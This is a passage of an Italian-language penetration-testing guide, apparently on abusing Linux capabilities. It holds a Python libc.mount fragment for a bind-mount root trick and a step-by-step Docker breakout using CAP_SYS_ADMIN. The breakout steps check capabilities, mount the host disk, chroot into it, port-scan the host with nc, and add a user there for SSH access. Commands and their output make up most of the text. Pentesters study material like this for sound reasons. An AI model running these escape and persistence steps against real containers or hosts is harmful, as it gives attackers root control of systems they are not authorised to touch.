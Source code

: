 ```python
filesystemtype = b"none"
options = b"rw"
mountflags = MS_BIND
libc.mount(source, target, filesystemtype, mountflags, options)
```
E sarai in grado di **`su` come root** utilizzando la password "password".

**Esempio con ambiente (Docker breakout)**

Puoi verificare le capacità abilitate all'interno del container Docker utilizzando:
```
capsh --print
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read+ep
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read
Securebits: 00/0x0/1'b0
secure-noroot: no (unlocked)
secure-no-suid-fixup: no (unlocked)
secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root)
```
All'interno dell'output precedente è possibile vedere che la capacità SYS_ADMIN è abilitata.

* **Montaggio**

Ciò consente al container docker di **montare il disco dell'host e accedervi liberamente**:
```bash
fdisk -l #Get disk name
Disk /dev/sda: 4 GiB, 4294967296 bytes, 8388608 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes

mount /dev/sda /mnt/ #Mount it
cd /mnt
chroot ./ bash #You have a shell inside the docker hosts disk
```
* **Accesso completo**

Nel metodo precedente siamo riusciti ad accedere al disco dell'host Docker.\
Nel caso in cui tu scopra che l'host sta eseguendo un server **ssh**, potresti **creare un utente all'interno del disco dell'host Docker** e accedervi tramite SSH:
```bash
#Like in the example before, the first step is to mount the docker host disk
fdisk -l
mount /dev/sda /mnt/

#Then, search for open ports inside the docker host
nc -v -n -w2 -z 172.17.0.1 1-65535
(UNKNOWN) [172.17.0.1] 2222 (?) open

#Finally, create a new user inside the docker host and use it to access via SSH
chroot /mnt/ adduser john
ssh john@172.17.0.1 -p 2222
```